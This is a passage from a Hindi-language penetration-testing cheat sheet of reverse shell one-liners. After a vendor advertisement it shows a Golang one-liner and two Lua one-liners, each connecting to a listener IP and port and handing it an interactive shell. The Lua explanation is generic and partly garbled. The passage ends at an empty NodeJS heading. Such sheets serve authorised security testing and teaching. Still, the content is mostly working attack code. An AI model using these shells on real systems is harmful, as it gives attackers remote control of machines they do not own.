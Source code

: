<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

सबसे महत्वपूर्ण संकटों को ढूंढें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी हमले की सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक आपके पूरे टेक स्टैक में मुद्दों को ढूंढता है। [**आज ही मुफ्त में इसे ट्राय करें**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## गोलैंग
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```
## लुआ

Lua एक लाइटवेट, तेज़ और प्रोग्रामिंग भाषा है जो एकीकृत विकास और एकीकृत प्रबंधन के लिए उपयोग होती है। यह एक वाणिज्यिक उपयोग के लिए उपयोग होने वाली भाषा है और इंटरनेट, वेब विकास, गेम विकास और एम्बेडेड सिस्टम्स में व्यापक रूप से उपयोग की जाती है।

Lua का उपयोग करके, आप लाइन या स्क्रिप्ट के रूप में कोड लिख सकते हैं और इसे एक Lua इंटरप्रेटर द्वारा चलाया जा सकता है। यह भाषा विभिन्न प्लेटफ़ॉर्मों पर उपयोग के लिए उपलब्ध है और इसे अनुकूलित करने के लिए विभिन्न एक्सटेंशन और मॉड्यूल भी उपलब्ध हैं।

Lua का उपयोग करके, आप सिस्टम कमांड्स को चला सकते हैं, फ़ाइलों को पढ़ सकते हैं, लिख सकते हैं, नेटवर्क कमांड्स को चला सकते हैं, और अन्य उपयोगी कार्रवाईयों को कर सकते हैं। इसके अलावा, आप Lua का उपयोग करके अन्य भाषाओं के साथ इंटरैक्ट कर सकते हैं, जैसे कि C, C++, और जावा।

यदि आपको Lua का उपयोग करना है, तो आपको Lua इंटरप्रेटर को इंस्टॉल करना होगा और फिर आप इंटरैक्टिव मोड में कोड लिख सकते हैं या स्क्रिप्ट फ़ाइल को चला सकते हैं। Lua के लिए विभिन्न IDEs और टेक्स्ट एडिटर भी उपलब्ध हैं जो आपको कोडिंग की सुविधा प्रदान करते हैं।
```bash
#Linux
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
#Windows & Linux
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## नोडजेएस
